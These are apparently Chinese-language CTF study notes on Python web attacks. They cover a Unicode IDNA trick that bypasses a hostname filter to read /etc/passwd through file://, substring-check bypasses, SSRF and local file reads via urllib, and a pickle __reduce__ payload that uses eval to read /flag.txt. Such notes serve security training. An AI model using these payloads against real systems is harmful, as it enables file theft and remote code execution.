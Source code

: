 ## **url中的unicode漏洞**
```
℆这个字符在经过
for h in host.split('.'):
      newhost.append(h.encode('idna').decode('utf-8'))
处理后变成c/u

以及ℂ变成c等
```

于是传入url=file://suctf.cc/etc/passwd
可以变成传入url=file://suℂtf.cc/etc/passwd绕过过滤，最终又变回来
>非预期这个也可绕过：url=file:////suctf.cc/etc/passwd
```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"


    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host


    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()   #http读网站，file读本地文件
    else:
        return "我扌 your problem? 333"
```

^
## **字符绕过**
如果判断是：
if "scan" in self.action:
则action中含有scan字符即可通过。
一般是两种字符按顺序拼接一起可以绕过多个判断，如xx+readscan ，xxread+scan

^
## **请求参数**
flask：
param = urllib.unquote(request.args.get("param", ""))
获取param参数值，如果没有默认为第二个空。

^
## **读文件**
tmpfile = open("./%s" % self.sandbox, 'w')

^
get请求读远程网址中文件前50字节，可能造成ssrf：
urllib.urlopen(param).read()[:50]
使用urllib.urlopen(param) 包含文件，可以直接填写文件路径`./flag.txt`，也可以使用伪协议。

本地文件读取协议:
fie://
local-file://绝对路径 或 local-file://flag.txt
gopher://



^
## **python反序列化**
python中反序列化的库主要有两个，`pickle`和`cPickle`，这俩除了运行效率上有区别外，其他没啥区别
和php一样不光能序列化字符串，也可以序列化数组，字典，类


`pickle`的常用方法有
```
import pickle

a_list = ['a','b','c']

# pickle构造出的字符串，有很多个版本。在dumps或loads时，可以用Protocol参数指定协议版本，例如指定为0号版本
# 目前这些协议有0,2,3,4号版本，默认为3号版本。这所有版本中，0号版本是人类最可读的；
# 之后的版本加入了一大堆不可打印字符，不过这些新加的东西都只是为了优化，本质上没有太大的改动。
# 一个好消息是，pickle协议是向前兼容的。0号版本的字符串可以直接交给pickle.loads()，不用担心引发什么意外。
# pickle.dumps将对象序列化为字符串
# pickle.dump将序列化后的字符串存储为文件
print(pickle.dumps(a_list,protocol=0))

pickle.loads() #对象反序列化
pickle.load() #对象反序列化，从文件中读取数据
```


ctf中大多数常见的pickle反序列化，利用方法大都是`__reduce__`，实现RCE。
`__reduce__`这个魔术方法，这个魔术方法简单的来说可php的`__wakeup`差不多,就是在被序列化的时候告诉系统如何运行，
他的返回值第一个参数是函数名，第二个参数是一个tuple，为第一个函数的参数。
稍微有点区别在于我们能够控制里面的内容，而php的`__wakeup`则是目标环境写死的，说明python反序列化更加自由一些


```
# python2代码
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a) 
# 将生成的序列化串，传入反序列化进行RCE文件读取。
```




